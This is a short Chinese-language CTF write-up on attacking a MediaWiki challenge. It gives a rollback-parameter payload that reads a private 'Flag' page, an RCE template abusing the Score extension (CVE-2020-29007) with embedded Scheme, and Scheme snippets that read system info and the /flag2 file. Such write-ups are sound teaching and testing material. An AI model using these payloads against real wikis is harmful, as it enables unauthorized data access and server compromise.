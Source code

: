 ![](img/2.png)



## 私有笔记

攻击目标是MediaWiki，搜索MediaWiki相关的安全漏洞，发现2021年12月的[版本更新](https://www.mediawiki.org/wiki/2021-12_security_release/FAQ)提到了一系列无权限任意访问的漏洞，和首页查到的版本号刚好一致。说明里明确提到了action=rollback&from={{:private page}}这种攻击方式。首页提示了flag的页面名是`Flag`，替换到payload里即可获取Flag页面的内容，拿到flag1。

flag2的提示是尝试RCE，二阶段提示了漏洞来源是Score扩展。查到了[CVE-2020-29007](https://github.com/seqred-s-a/cve-2020-29007)和官方的[讨论串](https://phabricator.wikimedia.org/T257062)，尝试并简化后，获得RCE的执行模板：

```
<score>\new Staff <<{c^# 

[scheme code goes here] 

}>></score>
```

这里用的是scheme语言，根据[入门教程](https://deathking.github.io/yast-cn/)设计了文件读取的代码，效果如下：

```scheme
# 1. 确认flag2的位置
(if (file-exists? "/flag2") "true" "false") 

# 2. 尝试获取系统信息
(object->string (uname))

# 3. 文件读取
(object->string (read (open-input-file "/flag2")))
```
